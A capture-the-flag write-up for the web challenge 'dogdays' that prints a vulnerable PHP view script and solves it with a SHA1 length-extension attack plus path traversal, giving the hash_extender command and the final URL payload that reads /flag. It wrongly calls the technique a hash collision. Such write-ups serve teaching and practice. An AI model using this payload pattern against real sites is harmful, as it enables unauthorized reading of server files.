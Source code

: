 ### Challenge ###

dogdays
382
Medium
Woof woof

http://chal.competitivecyber.club:7777

Author: Dylan (elbee3779)

### Solution ###
We are given the source code of this website but we are only going to look at tge important thing to us.
view.php:
```
<?php
	$pic = $_GET['pic'];
	$hash = $_GET['hash'];
	if(sha1("TEST SECRET1".$pic)==$hash){
		$imgdata = base64_encode(file_get_contents("pupper/".str_replace("\0","",$pic)));
		echo "<!DOCTYPE html>";
		echo "<html><body><h1>Here's your picture:</h1>";
		echo "<img src='data:image/png;base64,".$imgdata."'>";
		echo "</body></html>";
	}else{
		echo "<!DOCTYPE html><html><body>";
		echo "<h1>Invalid hash provided!</h1>";
		echo '<img src="assets/BAD.gif"/>';
		echo "</body></html>";
	}
	// The flag is at /flag, that's all you're getting!
?>
```

After reading the code we can figure out that it is a sha1 hash collision attack.
We can exploit it using : https://github.com/iagox86/hash_extender
This tool is created to find hash collisions we need the secret length which is 12 a vaild hash and a known hash. Luckily we have all three of these so we can just run the tool

```
./hash_extender --out-data-format=html --data '2.png' --secret 12 --append '/../../../../../../../flag' --signature 6e52c023e823622a86e124824efbce29d78b2e73 --format sha1
```

it gives us the final hash '0f823850f0294942f8813013d9e2ec6bc3ada079' we can use this and get the flag.

Final payload:```
http://chal.competitivecyber.club:7777/view.php?hash=0f823850f0294942f8813013d9e2ec6bc3ada079&pic=2%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%88%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fflag
```
